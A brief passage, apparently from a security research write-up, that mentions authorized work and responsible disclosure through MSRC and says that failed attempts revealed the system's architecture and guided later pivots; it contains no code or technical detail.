authorization. Responsible disclosure via MSRC. The defeats mapped the architecture.
The architecture informed the pivots.